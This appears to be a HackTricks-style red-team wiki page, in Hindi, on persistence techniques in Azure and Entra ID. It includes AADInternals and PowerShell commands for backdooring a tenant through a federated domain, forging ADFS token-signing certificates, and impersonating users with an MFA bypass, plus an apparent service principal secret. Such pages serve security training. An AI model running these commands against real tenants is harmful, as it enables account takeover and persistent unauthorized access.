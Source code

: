 # Az - Persistence

{{#include ../../../banners/hacktricks-training.md}}

### OAuth Application

डिफ़ॉल्ट रूप से, कोई भी उपयोगकर्ता Entra ID में एक एप्लिकेशन पंजीकृत कर सकता है। इसलिए आप एक एप्लिकेशन पंजीकृत कर सकते हैं (केवल लक्षित टेनेट के लिए) जिसे उच्च प्रभाव वाले अनुमतियों की आवश्यकता है जिसमें व्यवस्थापक की सहमति हो (यदि आप व्यवस्थापक हैं तो इसे स्वीकृत करें) - जैसे कि किसी उपयोगकर्ता की ओर से मेल भेजना, भूमिका प्रबंधन आदि। यह हमें **फिशिंग हमलों को निष्पादित करने** की अनुमति देगा जो सफलता की स्थिति में बहुत **लाभकारी** होंगे।

इसके अलावा, आप अपने उपयोगकर्ता के साथ उस एप्लिकेशन को स्वीकार कर सकते हैं ताकि उस पर पहुंच बनाए रख सकें।

### Applications and Service Principals

एप्लिकेशन प्रशासक, GA या microsoft.directory/applications/credentials/update अनुमतियों के साथ कस्टम भूमिका के विशेषाधिकारों के साथ, हम एक मौजूदा एप्लिकेशन में क्रेडेंशियल्स (गुप्त या प्रमाणपत्र) जोड़ सकते हैं।

यह **उच्च अनुमतियों वाले एप्लिकेशन को लक्षित करना** या **उच्च अनुमतियों के साथ एक नया एप्लिकेशन जोड़ना** संभव है।

एप्लिकेशन में जोड़ने के लिए एक दिलचस्प भूमिका **विशेषाधिकार प्राप्त प्रमाणीकरण प्रशासक भूमिका** होगी क्योंकि यह वैश्विक प्रशासकों का **पासवर्ड रीसेट** करने की अनुमति देती है।

यह तकनीक **MFA को बायपास** करने की भी अनुमति देती है।
```bash
$passwd = ConvertTo-SecureString "J~Q~QMt_qe4uDzg53MDD_jrj_Q3P.changed" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential("311bf843-cc8b-459c-be24-6ed908458623", $passwd)
Connect-AzAccount -ServicePrincipal -Credential $credentials -Tenant e12984235-1035-452e-bd32-ab4d72639a
```
- प्रमाणपत्र आधारित प्रमाणीकरण के लिए
```bash
Connect-AzAccount -ServicePrincipal -Tenant <TenantId> -CertificateThumbprint <Thumbprint> -ApplicationId <ApplicationId>
```
### Federation - Token Signing Certificate

**DA विशेषाधिकार** के साथ ऑन-प्रेम AD पर, **नए Token signing** और **Token Decrypt certificates** बनाना और आयात करना संभव है जिनकी वैधता बहुत लंबी होती है। यह हमें **किसी भी उपयोगकर्ता के रूप में लॉग-इन** करने की अनुमति देगा जिसका ImuutableID हमें पता है।

**निम्नलिखित कमांड** को **ADFS सर्वर(s) पर DA के रूप में चलाएँ** नए certs बनाने के लिए (डिफ़ॉल्ट पासवर्ड 'AADInternals'), उन्हें ADFS में जोड़ें, ऑटो रोलओवर को अक्षम करें और सेवा को पुनः प्रारंभ करें:
```bash
New-AADIntADFSSelfSignedCertificates
```
फिर, Azure AD के साथ प्रमाणपत्र जानकारी को अपडेट करें:
```bash
Update-AADIntADFSFederationSettings -Domain cyberranges.io
```
### Federation - Trusted Domain

GA विशेषाधिकार के साथ एक टेनेट पर, **एक नया डोमेन जोड़ना** संभव है (जिसे सत्यापित किया जाना चाहिए), इसके प्रमाणीकरण प्रकार को फेडरेटेड पर कॉन्फ़िगर करना और डोमेन को **एक विशिष्ट प्रमाणपत्र** (नीचे दिए गए कमांड में any.sts) और जारीकर्ता पर **विश्वास** करना कॉन्फ़िगर करना:
```bash
# Using AADInternals
ConvertTo-AADIntBackdoor -DomainName cyberranges.io

# Get ImmutableID of the user that we want to impersonate. Using Msol module
Get-MsolUser | select userPrincipalName,ImmutableID

# Access any cloud app as the user
Open-AADIntOffice365Portal -ImmutableID qIMPTm2Q3kimHgg4KQyveA== -Issuer "http://any.sts/B231A11F" -UseBuiltInCertificate -ByPassMFA$true
```
## संदर्भ

- [https://aadinternalsbackdoor.azurewebsites.net/](https://aadinternalsbackdoor.azurewebsites.net/)

{{#include ../../../banners/hacktricks-training.md}}

